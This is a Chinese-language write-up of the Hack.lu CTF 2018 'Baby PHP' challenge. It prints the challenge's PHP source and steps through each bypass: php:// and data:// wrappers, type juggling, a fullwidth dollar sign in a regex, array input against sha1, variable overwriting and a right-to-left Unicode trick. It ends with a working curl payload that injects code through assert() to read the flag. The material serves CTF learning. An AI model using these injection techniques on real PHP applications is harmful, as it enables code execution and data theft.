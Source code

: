 ```yaml
---
title: Hack.lu CTF 2018 Baby PHP
date: 2018-10-22 21:44:52
---
```


# Baby PHP

环境：https://arcade.fluxfingers.net:1819/ 

```php
<?php

require_once('flag.php');
error_reporting(0);


if(!isset($_GET['msg'])){
    highlight_file(__FILE__);
    die();
}

@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}

echo "Hello Hacker! Have a look around.\n";

@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}

if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){ 
            @$cc = $_GET['cc'];
        }
    }
}

list($k1,$k2) = [$k2, $k1];

if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}

$‮b = "2";$a="‮b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;  
```

用 `php -S 127.0.0.1:8080` 起一个本地服务用于调试。

13~15行可通过PHP wrapper 绕过。

```bash
curl "https://arcade.fluxfingers.net:1819?msg=php://input" -d "Hello Challenge!"
or
curl "https://arcade.fluxfingers.net:1819?msg=data://text/plain,Hello%20Challenge!"
```

24~26行传入key1=1337即可，$k1类型为string。

29行的美元符是个宽字节字符，并不是ASCII为36的字符。

```javascript
>encodeURI("＄")
<"%EF%BC%84"
```

```php
php > $e=str_repeat("0",42-3-4)."1337 ";
php > echo strlen($e);
42
php > echo $e;
000000000000000000000000000000000001337＄
```

38行可以通过传入数组绕过。39行有变量覆盖。

44行是个障眼法，在第一个美元符后有个Unicode 字符(`U+202e`)，用以左右反转，详见 [rtlo-trick](https://rawsec.ml/en/2-less-known-tricks-spoofing-extensions/#rtlo-trick)。十六进制看起来实际上是这样：

```bash
000002f0: 24e2 80ae 6220 3d20 2232 223b 2461 3d22  $...b = "2";$a="
00000300: e280 ae62 223b 2f2f 3b31 3d62 0d0a 0d0a  ...b";//;1=b....
```

就是说，第44行是 `$\u{202E}b = "2";$a="\u{202E}b";//;1=b` ，但经过Unicode字符作用后显示出来的是`$b=1;//;"b"=a$;"2" = b` 。推荐一个辅助工具：https://r12a.github.io/app-conversion/ 。

则$$a的值为2，传入k1=2即可。

51行设置在断言失败时中止执行。

52行可以执行PHP代码。

```bash
λ  curl -sg "https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=000000000000000000000000000000000001337%EF%BC%84&cc[]=&k1=2&bb=highlight_file(%22flag.php%22);//" | grep -o 'flag{.*}'
flag{7c217708c5293a3264bb136ef1fadd6e}
```

